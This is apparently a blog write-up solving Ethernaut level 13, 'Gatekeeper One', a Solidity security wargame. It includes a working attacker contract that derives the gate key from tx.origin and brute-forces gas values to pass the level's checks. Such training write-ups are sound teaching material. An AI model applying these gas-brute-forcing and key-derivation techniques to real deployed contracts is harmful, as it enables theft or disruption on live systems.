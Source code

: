 ```yaml
---
layout: post
title: Ethernaut - 13. Gatekeeperone
date:  2023-08-29
tags: ethernaut solidity
---
```


## Difficulty : 🌕🌕🌕🌑🌑
> Make it past the gatekeeper and register as an entrant to pass this level. <br /><br />
  Things that might help:
  - Remember what you've learned from the Telephone and Token levels.
  - You can learn more about the special function gasleft(), in Solidity's documentation (see here and here).

## Writeup
1. Get new instance
2. Create a contract
    ``` solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    import './13_GatekeeperOne.sol';

    contract GatekeeperOneAttacker {
        GatekeeperOne gatekeeperone;

        constructor(address _levelInstance) public {
            gatekeeperone = GatekeeperOne(_levelInstance);
        }

        function exploit() external{
            bytes8 _gateKey = bytes8(uint64(tx.origin)) & 0xFFFFFFFF0000FFFF;
            for (uint256 i = 0; i < 300; i++) {
                (bool success, ) = address(gatekeeperone).call.gas(i + (8191 * 3))(abi.encodeWithSignature("enter(bytes8)", _gateKey));
                if (success) {
                    break;
                }
            }
        }
    }
    ```
3. attack
4. `await contract.entrant()`


https://blog.dixitaditya.com/ethernaut-level-13-gatekeeper-one